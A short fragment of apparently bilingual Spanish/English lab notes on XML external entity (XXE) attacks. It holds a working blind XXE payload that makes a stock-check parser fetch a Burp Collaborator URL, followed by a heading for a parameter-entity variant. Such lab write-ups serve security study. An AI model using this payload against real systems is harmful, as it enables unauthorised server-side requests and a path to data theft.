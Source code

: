 ![](/img2/Pasted%20image%2020250814223447.png)

- Injection

```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [<!ENTITY myRequest SYSTEM "https://5ms97w9c9gud1vvvtutd03ewbnhe54tt.oastify.com/testing123">]>
  <stockCheck>
    <productId>
	    &myRequest;
	</productId>
	<storeId>
		1
	</storeId>
  </stockCheck>
```

## XXE ciego con entidades XML externas (OOB) || Blind XXE with out-of-band interaction via XML parameter entities

![](/img2/Pasted%20image%2020250814225303.png)
